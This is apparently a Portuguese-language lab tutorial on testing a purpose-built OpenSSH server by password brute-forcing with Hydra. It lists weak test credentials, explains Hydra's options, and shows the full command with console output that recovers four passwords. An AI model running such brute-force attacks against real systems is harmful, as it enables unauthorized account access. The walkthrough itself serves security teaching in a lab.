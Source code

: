 O sistema que sofrerá o ataque/teste foi feito somente para este fim. Esse é um sistema Linux, que está executando um servidor OpenSSH, e para os testes foram adicionados os seguintes usuários, com suas respectivas senhas:

|Nome do usuário | Senha|
|:---------------|:-----:|
|jose | 123456|
|antonio | iloveyou |
|maria | master |
|ana | felicidade |
|luiz | 123mudar |

> Note que no arquivo de usuários ([users.txt](arquivos/users.txt)), só temos os usuários: ``jose``, ``joao``, ``antonio``, ``maria`` e ``ana``. Não há o usuário ``luiz``, que existe no sistema. Também no arquivo, há o usuário ``joao``, que não existe no sistema.

Bem, para executar o teste específico é utilizado o comando ``hydra``, seguido das opções:
* ``-L`` - para passagem do arquivo de usuários que serão testados;
* ``-P`` - para indicar o arquivo de senhas que serão testadas para cada usuário;
* ``ip|domínio`` - IP ou domínio/URL da vítima;
* ``ssh`` - protocolo que será utilizado.
* ``-t`` - número de *threads* que serão utilizadas no processo.

O resultado do teste é:

```console
$ hydra -L users.txt -P rockyou-menor.txt 192.168.122.47 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-06 23:35:35
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5832555 login tries (l:5/p:1166511), ~1458139 tries per task
[DATA] attacking ssh://192.168.122.47:22/
[STATUS] 40.00 tries/min, 40 tries in 00:01h, 5832515 to do in 2430:13h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 5832471 to do in 3471:43h, 4 active
[STATUS] 26.29 tries/min, 184 tries in 00:07h, 5832371 to do in 3698:04h, 4 active
...
[STATUS] 25.27 tries/min, 4827 tries in 03:11h, 5827728 to do in 3843:18h, 4 active
[22][ssh] host: 192.168.122.47   login: ana   password: felicidade
[22][ssh] host: 192.168.122.47   login: antonio   password: iloveyou
[22][ssh] host: 192.168.122.47   login: jose   password: 123456
[22][ssh] host: 192.168.122.47   login: maria   password: master
[STATUS] 22541.77 tries/min, 4666146 tries in 03:27h, 1166409 to do in 00:52h, 4 active
...
[STATUS] 9441.77 tries/min, 4673676 tries in 08:15h, 1158879 to do in 02:03h, 4 active
```
Bem, na saída do teste anterior, note que se passaram mais de oito horas (``[STATUS] 9441.77 tries/min...08:15h...``) de tentativas de descobrir-se os usuários/senhas do sistema em questão (foi uma noite de teste, de manhã o teste foi cancelado - ``Ctrl+C``). Este tempo de teste resultou na descoberta das senhas dos usuários ``ana``, ``antonio``, ``jose`` e ``maria`` (ver saída a seguir). Isso foi obtido depois de umas 3 horas de teste. O restante do tempo (umas 5 horas), foi provavelmente devido ao fato do sistema tentar as senhas para o usuário ``joao``, que não existe no sistema em questão.
